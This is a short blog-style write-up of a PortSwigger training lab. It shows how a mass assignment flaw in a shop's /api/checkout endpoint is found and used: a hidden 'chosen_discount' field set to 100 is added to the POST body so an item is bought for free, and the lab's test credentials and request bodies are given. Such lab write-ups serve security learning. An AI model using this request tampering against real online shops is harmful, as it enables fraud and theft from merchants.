 ```yaml
---
title: "API testing: challange 3"
date: "2024-03-05"
thumbnail: "/assets/img/thumbnail/API.png"
---
```


# Exploiting a mass assignment vulnerability
---

Link: https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability

To solve the lab, find and exploit a mass assignment vulnerability to buy a Lightweight l33t Leather Jacket. You can log in to your own account using the following credentials: wiener:peter. 

### solution

- Start the challange by logging using wiener:peter credentials
- I navigated through the website to find api endpoints
- After navigation i found it when you add item to cart, go to your cart and click `place order`
- This moves you to this API endpoint `/api/checkout` and this is the request body when the request method is `POST`
```json
{
    "chosen_products":[
        {
            "product_id":"1",
            "quantity":1,
            "item_price":0
        }
    ]
}
```
- I tried to change the request method to PUT and i found in the response that only GET, POST are the allowed methods
- When i change the request method to `GET` i get this response
```json
{
    "chosen_discount":{
        "percentage":0
    },
    "chosen_products":[
        {
            "product_id":"1",
            "name":"Lightweight \"l33t\" Leather Jacket",
            "quantity":2,
            "item_price":133700
        }
    ]
}
```
- We note that there's `chosen_discount` Let's add it the body of the request and send the post request but after making the chosen_discount = 100
- Congratzzzzzzzzzzzzzzzzzz